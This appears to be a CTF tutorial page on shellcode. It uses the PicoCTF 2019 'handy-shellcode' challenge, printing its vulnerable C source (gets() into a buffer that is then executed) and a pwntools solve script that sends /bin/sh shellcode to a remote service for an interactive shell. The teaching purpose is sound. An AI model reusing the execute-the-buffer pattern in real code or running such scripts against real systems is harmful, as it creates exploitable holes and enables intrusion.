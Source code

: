 ```yaml
---
title: Shellcode
---
```

Shellcode is a small piece of code used in a payload, usually to spawn a shell to control the machine.
Shellcode is useful when your program runs buffers you control as a function.

## Example
Let's take a look at the following source code: (PicoCTF 2019: handy-shellcode)
```c
void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){
  setvbuf(stdout, NULL, _IONBF, 0);

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];
  puts("Enter your shellcode:");
  vuln(buf);
  puts("Thanks! Executing now...");
  ((void (*)())buf)();
  puts("Finishing Executing Shellcode. Exiting now...");
  return 0;
}
```

We can see that the code reads user input and writes it to `buf`, before running `((void (*)())buf)()`.
Let's break this line down:
1. `(void (*)())` means a pointer to function that takes no argument and returns void.
2. `((void (*)())buf)` means we're casting `buf` into said pointer.
3. `((void (*)())buf)()` means we're running `buf` which was casted to a pointer to a function, which would run the function.

Therefore, this line would run whatever code is in `buf`.

This is where shellcode would come in. We will set `buf` to the hex bytes you would get when you convert `execve("/bin/sh")` to assembly to hex bytes.
You can find shellcode samples online. Pwntools also provides shellcode samples via `asm(shellcraft.sh())`.

Here's an example solve script for the challenge:
```python
from pwn import *

r = remote("...", 1234)

r.clean()
r.sendline(asm(shellcraft.sh()))
r.clean()
r.interactive()
```

This code will spawn a shell for you to control, successfully solving the challenge.